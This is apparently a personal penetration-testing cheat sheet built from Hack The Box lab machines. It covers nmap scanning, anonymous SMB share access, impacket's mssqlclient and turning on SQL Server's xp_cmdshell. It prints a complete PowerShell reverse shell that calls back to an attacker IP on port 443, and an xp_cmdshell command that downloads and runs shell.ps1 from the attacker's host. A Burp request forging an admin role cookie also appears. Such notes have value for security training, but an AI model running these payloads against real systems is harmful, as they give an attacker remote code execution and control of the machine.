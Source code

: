 ## RECON

### Windows commands
Output the contents of a file
```
type potato
```

Show current user
```
whoami
```

### NMAP
Find TCP ports that are active
```
ports=$(nmap -p- --min-rate=1000 -T4 $TARGET_IP | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p- --min-rate=1000 -T4 $TARGET_IP -v
```

Scan the ports that we're found + service detection.
```

nmap -sC -sV -p$ports $TARGET_IP

laurentdumont@cr300-kali:~$ nmap -sC -sV -p 1433 10.10.10.27
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-12 12:37 EST
Nmap scan report for 10.10.10.27
Host is up (0.034s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2020-11-06T18:53:07
|_Not valid after:  2050-11-06T18:53:07
|_ssl-date: 2020-11-12T18:56:28+00:00; +1h18m29s from scanner time.

Host script results:
|_clock-skew: mean: 1h18m28s, deviation: 0s, median: 1h18m28s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433

```

### SMB (file sharing)
List Shares
```
smbclient -N -L \\\\$TARGET_IP\\
```

Connect to Share
```
smbclient -N \\\\$TARGET_IP\\backups
```

Get files from share
```
laurentdumont@cr300-kali:~$ smbclient -N \\\\10.10.10.27\\backups
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Tue Nov 10 17:21:13 2020
  ..                                  D        0  Tue Nov 10 17:21:13 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
  user.txt                            A       32  Tue Feb 25 09:37:36 2020

                10328063 blocks of size 4096. 7108669 blocks available

smb: \> get user.txt
getting file \user.txt of size 32 as user.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
```


### Using ImpPacket
```
git clone https://github.com/SecureAuthCorp/impacket
# Move the utility from ./examples into the root folder

# Run the utility
python3 mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth

# OR INSTALL ALL EXAMPLES (execute in project root folder)
pip3 install .
```

### Microsoft SQL
#### Check if user is admin
```
SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')
              

-----------   

          1   
```
IF `1` user is admin.

#### Validate in which context SQL Server is running and enable the 'xp_cmdshell' module.
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"

SQL>  xp_cmdshell "whoami" 
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL
```

### NETCAT (nc)
Create a listener on tcp port 443
```
sudo nc -lvnp 443
```

#### Windows Shell
Attempt to connect to a listener and open a shell using TCP port 443. You need to replace the IP of the machine that is listening (with nc for example)
```
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

Execute the command on the SQL server. This will attempt to get the shell.ps1 file and execute it in the context of the user running the SQL server.
```
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.53/shell.ps1\");"
```


## BURP

### BURP Intruder Sniper
```
GET /cdn-cgi/login/admin.php?content=accounts&id=§param1§ HTTP/1.1
Host: 10.10.10.28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: user=34322; role=admin
Connection: close
```

## Privilege escalation flow

### Information gathering

Get OS version
```
lsb_release -a
```

Get Kernel version
```
uname -a
```

Get current user info
```
id
```